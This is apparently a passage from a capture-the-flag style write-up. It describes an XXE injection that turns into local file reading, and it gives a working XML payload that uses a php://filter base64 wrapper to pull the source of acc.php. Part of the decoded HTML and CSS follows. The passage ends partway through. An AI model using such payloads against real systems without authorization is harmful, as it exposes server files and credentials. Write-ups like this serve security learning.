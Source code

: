 ![](cybersecurity/images/Pasted%2520image%252020250425131018.png)

We got LFI, `expect` wrapper is not enabled so we cannot get `RCE`, but, we can read other system file, for example, if we click on `My Account`, we get a `GET` request to `acc.php`, we can maybe get more info if we read this file, we need to use `php://filter`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
]>
<root>
  <name>
&xxe;</name>
<search>&xxe;
</search>
</root>
```

![](cybersecurity/images/Pasted%2520image%252020250425131503.png)

Let's decode these contents:

```html
<!DOCTYPE html>
<html>
<head>
<style>
form
{
  border: 2px solid black;
  outline: #4CAF50 solid 3px;
  margin: auto;
  width:180px;
  padding: 20px;
  text-align: center;
}


ul {
  list-style-type: none;
  margin: 0;
  padding: 0;
  overflow: hidden;
  background-color: #333;
}

li {
  float: left;
  border-right:1px solid #bbb;
}

li:last-child {
  border-right: none;
}

li a {
  display: block;
  color: white;
  text-align: center;
  padding: 14px 16px;
  text-decoration: none;
}

li a:hover:not(.active) {
```
